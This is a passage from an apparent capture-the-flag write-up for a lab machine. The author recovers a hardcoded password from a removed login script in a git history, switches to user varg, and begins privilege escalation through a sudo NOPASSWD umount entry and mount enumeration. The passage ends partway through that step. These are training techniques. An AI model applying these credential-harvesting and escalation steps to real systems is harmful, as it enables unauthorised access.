 ```bash
-
-print("\033[0;0m[ \033[92m OK  \033[0;0m] Mounted Cooctus Filesystem under /opt")
-
-print("\033[0;0m[ \033[92m OK  \033[0;0m] Finished booting sequence")
-
-print("CooctOS 13.3.7 LTS cookie tty1")
-uname = input("\ncookie login: ")
-pw = input("Password: ")
-
-for i in range(0,2):
-    if pw != "slowroastpork":
-        pw = input("Password: ")
-    else:
-        if uname == "varg":
-            os.setuid(1002)
-            os.setgid(1002)
-            pty.spawn("/bin/rbash")
-            break
-        else:
-            print("Login Failed")
-            break
```

We see there’s a password mentioned in the source code, could this be for varg:

`varg : slowroastpork`&#x20;

```bash
tux@cchq:/home/varg/cooctOS_src/.git$ su varg
Password: 
varg@cchq:~/cooctOS_src/.git$ 
```

### Priv Esc to Root

&#x20;`sudo -l` .

```bash
varg@cchq:~$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
```

There is no reason for this user to have that unless it’s our intended path.

It had me puzzled for a while, but I found [this](https://linoxide.com/list-mounted-drives-on-linux/) really interesting article. It shows lots of ways to find mounted volumes. First I listed them all:

```bash
varg@cchq:~$ findmnt
TARGET                                SOURCE                                                    FSTYPE      OPTIONS
/                                     /dev/mapper/ubuntu--vg-ubuntu--lv                         ext4        rw,relatime,data=ordered
├─/sys                                sysfs                                                     sysfs       rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/security              securityfs                                                securityfs  rw,nosuid,nodev,noexec,relatime
│ ├─/sys/fs/cgroup                    tmpfs                                                     tmpfs       ro,nosuid,nodev,noexec,mode=755
│ │ ├─/sys/fs/cgroup/unified          cgroup                                                    cgroup2     rw,nosuid,nodev,noexec,relatime,nsdelegate
```